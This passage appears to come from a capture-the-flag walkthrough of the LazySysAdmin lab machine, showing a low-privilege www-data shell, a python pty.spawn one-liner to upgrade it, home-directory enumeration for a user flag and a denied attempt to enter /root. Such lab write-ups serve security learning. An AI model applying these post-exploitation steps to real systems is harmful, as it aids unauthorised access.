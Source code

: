```bash
Linux LazySysAdmin 4.4.0-31-generic #50~14.04.1-Ubuntu SMP Wed Jul 13 01:06:37 UTC 2016 i686 i686 i686 GNU/Linux
 06:14:29 up  4:03,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```



```bash
# Now we can use python to spawn an interactive shell.
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"
www-data@LazySysAdmin:/$ whoami
whoami
www-data
www-data@LazySysAdmin:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@LazySysAdmin:/$ 

# We can check if this CTF has a user flag 🚩
www-data@LazySysAdmin:/$ cd /home
cd /home
www-data@LazySysAdmin:/home$ ls -al
ls -al
total 12
drwxr-xr-x  3 root  root  4096 Aug 14  2017 .
drwxr-xr-x 22 root  root  4096 Aug 21  2017 ..
drwxr-xr-x  3 togie togie 4096 Aug 15  2017 togie
www-data@LazySysAdmin:/home$ cd togie
cd togie
www-data@LazySysAdmin:/home/togie$ ls -al  
ls -al
total 24
drwxr-xr-x 3 togie togie 4096 Aug 15  2017 .
drwxr-xr-x 3 root  root  4096 Aug 14  2017 ..
-rw-r--r-- 1 togie togie  220 Aug 14  2017 .bash_logout
-rw-r--r-- 1 togie togie 3637 Aug 14  2017 .bashrc
drwx------ 2 togie togie 4096 Aug 14  2017 .cache
-rw-r--r-- 1 togie togie  675 Aug 14  2017 .profile
www-data@LazySysAdmin:/home/togie$ 

# Nope, this CTF does not have a User Flag 🚩
# Let's get the root flag then!
www-data@LazySysAdmin:/home/togie$ cd /root
cd /root
bash: cd: /root: Permission denied
```
